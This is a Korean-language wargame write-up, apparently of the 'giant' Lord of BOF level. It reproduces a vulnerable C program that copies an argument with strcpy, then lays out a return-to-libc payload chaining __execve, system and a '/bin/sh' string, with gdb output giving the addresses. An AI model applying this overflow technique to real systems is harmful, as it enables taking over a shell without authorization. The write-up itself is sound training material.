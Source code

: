 ```c

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int)execve_offset;
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```

popen 함수는 command를 실행시킨 뒤, pipe를 통해 연결시킨다. 따라서, 위의 동작을 정리하자면 실제 메모리에 올라간 library의 시작 주소와 libc 내에서 `__execve` 함수의 offset을 구하여 실제 메모리 상에 존재하는 `__execve` 함수의 주소를 구한 뒤, ret에 해당 주소가 제대로 들어갔는지 확인한다 정도가 되겠다. giant 파일을 복사한 파일을 대상으로 gdb로 디버깅을 해보면 권한 문제로 ldd로 명령어가 제대로 파싱을 해주지 못하기 때문에, set 명령어로 값을 직접 메모리에 넣어주던가 해야한다. 아니면 뭐 그 전까지는 안봐도 되고.

뭐 결국 execve 함수를 실행해서 쉘을 따라. 정도가 문제의 컨셉이다. 근데, 아무리 생각해봐도 execve 함수의 인자를 만들어주는게 귀찮을 것 같아서 다른 방법을 시도했다. execve 함수의 인자는 실행할 파일 이름의 문자열을 가진 포인터와 그 문자열의 주소를 가리키는 포인터 혹은 null이 필요한데, strcpy 함수의 특성상 null을 전달하기는 힘들기 때문에 execve를 그냥 버리기로 함.

걍 실행할 파일 이름을 제대로 전달하지 않으면 얌전히 execve의 ret에 등록된 곳을 실행한다. 

```shell
"A"*44 | &__execve | &__system | AAAA | &binsh
```

이처럼 하면, 0x41414141 주소를 제대로 읽을 수 없기 때문에, 얌전히 execve는 종료가 되고, execve가 종료가 되면서 system 함수를 부르고 system 함수는 &binsh 문자열을 파일 이름으로 인식하여 실행시킨다.

다음은 필요한 자원들의 주소이다. /bin/sh 문자열의 library base와의 offset은 xxd 명령어로 구할 수 있음.

```shell
0x400fbff9:	 "/bin/sh"
(gdb) p __execve
$1 = {int (char *, char **, char **)} 0x400a9d48 <__execve>
(gdb) x/wx 0x40018000 + 0x91d48
0x400a9d48 <__execve>:	0x57e58955
(gdb) p system
$2 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```
